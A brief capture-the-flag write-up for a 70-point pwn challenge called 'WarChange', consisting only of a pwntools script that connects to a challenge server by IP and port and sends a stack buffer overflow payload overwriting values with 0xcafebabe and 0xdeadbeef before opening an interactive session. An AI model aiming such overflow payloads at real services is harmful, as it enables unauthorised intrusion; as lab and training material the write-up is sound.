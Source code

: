 # WarChange
**Category**: pwn
**Points**: 70


# Write-Up
```python
from pwn import *

p = remote('139.59.30.165',8800)
payload = "A"*72
payload += p32(0xcafebabe)
payload += p32(0xdeadbeef)
payload += "A"*50	
p.sendline(payload)
p.interactive()
```